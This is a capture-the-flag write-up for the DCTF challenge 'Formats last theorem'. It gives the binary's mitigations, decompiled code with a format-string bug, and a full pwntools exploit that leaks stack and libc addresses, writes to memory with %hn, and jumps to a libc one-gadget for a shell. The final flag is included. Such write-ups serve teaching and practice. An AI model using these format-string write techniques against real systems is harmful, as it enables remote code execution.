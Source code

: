 # Formats last theorem

I dare you to hook the malloc
nc dctf-chall-formats-last-theorem.westeurope.azurecontainer.io 7482

## Challenge

Format string vulnerability in an infinite loop.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Format String Vulnerability

```c
void sym.vuln(void)
{
    int64_t in_FS_OFFSET;
    char *format;
    int64_t var_8h;
    
    var_8h = *(int64_t *)(in_FS_OFFSET + 0x28);
    do {
        sym.imp.puts(0x858);
        sym.imp.__isoc99_scanf(0x8a1, &format);
        sym.imp.puts(0x8a7);
        sym.imp.printf(&format);
        sym.imp.puts(0x8b3);
        sym.imp.puts(0x8b3);
    } while( true );
}
```

## Solution

We can start by leaking addresses off the stack to find the address of the stack and the base address of libc.

With this information, we know where to overwrite and we can find a one-gadget to jump to.
One of the one-gadgets requires that `[rsp+0x70]` is null, which we can set by overwriting this stack variable using `printf`.

With the constraint met, we can exit the infinite loop by overwriting the return address of `printf` with the address of the one-gadget.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host dctf-chall-formats-last-theorem.westeurope.azurecontainer.io --port 7482 formats_last_theorem
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('formats_last_theorem')
libc=ELF('libc6_2.27-3ubuntu1.4_amd64.so')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'dctf-chall-formats-last-theorem.westeurope.azurecontainer.io'
port = int(args.PORT or 7482)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

def leak(offset):
    io.recvuntil("point\n")
    io.sendline("%{}$p".format(offset // 8 + 6))
    io.recvuntil("entered\n")
    return int(io.recvuntil("\n", drop=True), 0)

def write(addr, content):
    content0 = content % 0x10000
    content1 = content % 0x100000000 // 0x10000
    content2 = content % 0x1000000000000 // 0x100000000
    content3 = content // 0x1000000000000

    payload0 = ''
    payload0 += "%{}c".format(content0)
    payload0 += "%14$hn"
    payload0 += "%{}c".format((content1 - content0) % 0x10000)
    payload0 += "%15$hn"
    payload0 += "%{}c".format((content2 - content1) % 0x10000)
    payload0 += "%16$hn"
    payload0 += "%{}c".format((content3 - content2) % 0x10000)
    payload0 += "%17$hn"

    payload1 = ''
    payload1 += p64(addr)
    payload1 += p64(addr + 2)
    payload1 += p64(addr + 4)
    payload1 += p64(addr + 6)

    payload = flat({
        0: payload0,
        0x40: payload1,
        })

    io.recvuntil("point\n")
    io.sendline(payload)

def zero(addr):
    payload = flat({
        0: "%7$ln",
        0x8: addr,
        })

    io.recvuntil("point\n")
    io.sendline(payload)

io = start()

libc.address = leak(0x88) - 0x021bf7
io.success(hex(libc.address))

stack = leak(0x70)
rip = stack - (0x7fffffffe300 - 0x7fffffffe278)
rsp0x70 = stack - (0x7fffffffe300 - 0x7fffffffe2f0)
io.success(hex(stack))

target = libc.address + 0x10a41c
io.info(hex(target))

zero(rsp0x70)

write(rip, target)

io.interactive()
```

## Flag

`dctf{N0t_all_7h30r3ms_s0und_g00d}`

